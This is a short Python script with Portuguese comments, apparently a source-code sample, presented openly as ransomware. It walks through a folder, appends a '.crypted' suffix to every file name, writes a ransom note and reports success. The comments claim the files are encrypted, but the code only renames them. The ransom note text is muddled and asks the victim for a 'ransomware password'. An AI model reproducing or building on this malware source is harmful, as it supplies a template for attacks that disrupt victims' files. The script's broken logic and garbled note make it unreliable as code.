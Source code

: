 import os
import time

# Pasta para ransom
folder = '/caminho/para/sua/pasta'

# Nome do arquivo criptografado
encrypted_name = '.crypted'

# Nome do arquivo com a mensagem do ransomware
ransom_name = 'ransom.txt'

# Criptografa todos os arquivos na pasta
for filename in os.listdir(folder):
    # Ignora arquivos já criptografados e a mensagem do ransomware
    if filename.endswith(encrypted_name) or filename.endswith(ransom_name):
        continue

    # Renomeia o arquivo original para o arquivo criptografado
    original_path = os.path.join(folder, filename)
    encrypted_path = os.path.join(folder, filename + encrypted_name)
    os.rename(original_path, encrypted_path)

# Cria a mensagem do ransomware
with open(os.path.join(folder, ransom_name), 'w') as file:
    file.write('Opa! Aparentemente, os arquivos nesta pasta foram ransomware.\n\n')
    file.write('Por favor, nos ajude a recuperar nossos dados, fornecendo-nos a senha de ransomware.\n\n')
    file.write('Sua atenção é realmente necessária!')

print('Ransomware executado com sucesso.')
